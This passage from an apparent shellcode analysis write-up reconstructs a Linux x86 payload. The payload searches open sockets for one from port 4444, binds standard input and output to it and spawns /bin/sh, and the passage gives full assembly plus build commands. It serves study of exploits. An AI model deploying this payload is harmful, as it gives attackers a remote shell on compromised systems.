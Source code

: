 ```c	
__SOCKADDR_COMMON (sin_); 
```
Therefore it follows the second will be,
```c
in_port_t sin_port; /* Port number.  */
```
In the byte block above referencing 0xbffff5ee it can be seen the port is zero so the loop will continue until port number 4444 is found.

From all of the information above an assembly language program can be written and commented in order to better understand what the code is doing.
```nasm	
global _start
section .text
_start:
    xor     ebx,ebx
 
    ;int getpeername(int sockfd, struct sockaddr *addr, 
    ;   socklen_t *addrlen);
    push    ebx            ; null
    mov     edi,esp                 
    push    byte +0x10     ; addrlen
    push    esp
    push    edi            ; addr
    push    ebx            ; sockfd
    mov     ecx,esp        ; pointer to args
    mov     bl,0x7         ; getpeername()
LBL1:                      ; no, search for port
    inc     dword [ecx]    ; ++counter, (port number)
    push    byte +0x66     ; socketcall()
    pop     eax                 
    int     0x80           ; make the call
    cmp     word [edi+0x2],0x5c11   ; port 4444
    jnz     LBL1           ; found port?    
 
    ;int dup2(int oldfd, int newfd);
    pop     ebx            ; yes, found it
    push    byte +0x2      ; counter
    pop     ecx
LBL2:                      ; no, bind stdin/out/err
    mov     al,0x3f        ; dup2()
    int     0x80           ; make the call
    dec     ecx            ; --counter
    jns     LBL2           ; zero?
 
    ;int execve(const char *filename, char *const argv[],
    ;    char *const envp[]);
    push    eax            ; yes, null
    push    dword 0x68732f2f  ; hs//
    push    dword 0x6e69622f  ; nib/
    mov     ebx,esp        ; ebx, contains addr of //bin/sh
    push    eax            ; null
    push    ebx            ; pointer to //bin/sh
    mov     ecx,esp        ; ecx, contains addr of //bin/sh
    cdq
    mov     al,0xb         ; execve()
    int     0x80           ; make the call
```
To build the code:
```
$ nasm -felf32 -o getpeername.o getpeername.asm
$ ld -o getpeername getpeername.o
```
There is no need to check for nulls within the code as it can be seen from the initial disassembly that there are none.